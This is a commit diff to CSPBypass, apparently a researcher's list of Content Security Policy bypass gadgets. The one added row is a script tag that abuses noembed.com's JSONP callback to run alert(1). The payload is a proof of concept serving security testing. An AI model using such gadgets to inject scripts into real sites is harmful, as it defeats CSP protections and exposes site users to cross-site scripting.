

Before and after one commit to tsautier/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added noembed.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 178: noembed.com | <script src="https://noembed.com/embed?url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3DdQw4w9WgXcQ&callback=alert(1)-"></script>
```
